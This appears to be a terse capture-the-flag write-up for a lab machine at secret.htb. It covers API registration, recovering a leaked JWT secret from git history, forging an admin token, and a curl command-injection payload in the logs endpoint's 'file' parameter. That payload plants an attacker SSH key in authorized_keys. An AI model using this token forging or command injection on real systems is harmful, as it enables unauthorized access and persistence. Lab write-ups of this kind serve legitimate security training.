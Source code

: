 when we go to `secret.htb/docs` it shows us how to register a user and login

Example request:
```
POST /api/user/register HTTP/1.1
Host: secret.htb:3000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
If-None-Match: W/"5d-ArPF0JBxjtRzy3wpSVF4hSVtK4s"
Connection: close
Content-Length: 79
Content-Type: application/json

{
"name": "adminn",
	"email": "asdf@adsf.com",
	"password": "password"
 }
```

Be sure to include `content-type`

Our JWT token

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBjODljM2Q4ZGI1NTA0NGRlZjY0MmYiLCJuYW1lIjoiYWRtaW5uIiwiZW1haWwiOiJhc2RmQGFkc2YuY29tIiwiaWF0IjoxNjQ0OTg4ODk5fQ.5xy6ixmtqXI35ix20TV4x8enAzO7VPM0XFu4ku7QYc4
```



Looked at git commit history

`git diff de0a46b5107a2f4d26e348303e76d85ae4870934 `

We find an old secret:

`gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`


We craft a JWT token with the exact payload dasith used in his docs and sign it with the secret we found (do not check base64 encode)

New auth token:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.52W5mGLsIO2iiLpy3f1VkVavP4hOoWHxy5_0BDn9UKo
```



```
curl -XGET 'http://secret.htb:3000/api/logs?file=/home;echo+%22ssh-rsa+AAAAB3NzaC1yc2EAAAADAQABAAABgQCmupLnCHYTjXVR%2Ff0oFfJ4v%2BA1%2BqWtZWQxHIP4yZ7HaPsdMLW%2Bobj7fRCtKHVYaEQVlOiOEbim2BAWcBCOq774MeZ0tTr37e%2FBEXFG7CB8gmFYPpoo1DXkPQwugDqoV6F872V86TnD6wHp3UpTuZxeTwBE80HsvN%2FA7CTSX80MllrEHqyzZ4SgoBMAMr90nXftI8G9UhTK51%2FA05Rhe%2BY7mzwQbXAIz9ObqlxVlY%2BmO7mR4sEI5UtDvN%2BU158NGasyttH5Zf9HXpmfOOPOHOaHA0omDhfmmqp1%2BFmfYPbAJo9%2BVivCs0%2B2Ir0EPrUaOOTCz8ucz740UsiIkKBboJvKIaIGRozaRsIpUD4o3MWqK3iwLNTtF7kknz4TFGpA2E6YnnTX6amtx5ed7mCTGy6KIliTheI9kSYY5T8sYoCc9NyacTm0D6bLzWAg4C0fG1q8d6ir%2FH0tB0Cr5DCShao49WWiGQGvcOp7GuxOFdnl6xtlu87N2XPOQw6PAtqxIwk%3D+keez%40kali%22+%3E%3E+%2Fhome%2Fdasith%2F.ssh%2Fauthorized_keys%3B+chmod+0600+%2Fhome%2Fdasith%2Fauthorized_keys' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.52W5mGLsIO2iiLpy3f1VkVavP4hOoWHxy5_0BDn9UKo"
```
